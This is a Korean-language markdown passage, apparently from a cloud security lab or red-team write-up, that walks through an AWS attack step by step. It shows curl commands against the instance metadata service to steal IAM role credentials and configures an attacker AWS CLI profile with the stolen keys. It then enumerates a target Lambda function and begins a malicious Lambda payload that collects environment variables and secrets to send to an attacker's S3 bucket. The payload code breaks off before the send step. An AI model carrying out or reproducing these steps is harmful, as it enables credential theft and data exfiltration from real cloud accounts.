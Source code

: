 ### 단계별 공격 수행

#### 단계 1: IAM Role 자격 증명 탈취
```bash
# IAM Role 이름 확인
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 자격 정보 추출
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE_NAME>
```

**응답 데이터 예시:**
```json
{
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "IQoJb3JpZ2luX2Vj...",
  "Expiration": "2025-05-27T12:00:00Z"
}
```

#### 단계 2: 공격자 AWS CLI 프로필 구성
```bash
# AWS CLI 프로필 설정
aws configure --profile lambda-attack
```

또는 직접 credentials 파일 편집:
```ini
[lambda-attack]
aws_access_key_id = <탈취된 키>
aws_secret_access_key = <탈취된 비밀 키>
aws_session_token = <세션 토큰>
region = ap-northeast-2
```

#### 단계 3: 타겟 Lambda 함수 식별
```bash
# Lambda 함수 목록 조회
aws lambda list-functions --profile lambda-attack

# 특정 함수 정보 확인
aws lambda get-function --function-name log_security_events --profile lambda-attack
```

#### 단계 4: 악성 Lambda Payload 작성

**lambda_function.py** (악성 코드):
```python
import boto3
import json

def lambda_handler(event, context):
    """
    악성 Lambda 함수 - 내부 데이터를 외부로 유출
    """
    s3 = boto3.client('s3')
    
    # 민감한 내부 데이터 수집
    sensitive_data = {
        "timestamp": context.aws_request_id,
        "environment_vars": dict(os.environ),
        "internal_data": "CONFIDENTIAL COMPANY SECRETS",
        "credentials": "EXTRACTED_API_KEYS"
    }
    
    # 공격자의 S3 버킷으로 데이터 전송
```
